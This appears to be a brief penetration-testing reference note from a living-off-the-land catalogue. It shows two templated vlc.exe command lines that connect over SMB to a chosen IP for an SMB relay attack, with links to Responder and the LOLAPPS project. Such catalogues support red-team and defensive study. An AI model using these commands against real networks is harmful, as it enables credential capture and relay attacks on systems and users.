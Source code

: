# VLC

Execute command to perform SMB relay.

```
C:\> vlc.exe -q -I smb --smb-user <username> --smb-pwd <password> --smb-domain <domain>

C:\> vlc.exe -q smb://<username>:<password>@<IP>
```

---
## References

- [[02 - Responder|Responder]]

 [LOLAPPS (Living Off The Land Applications)](https://lolapps-project.github.io/)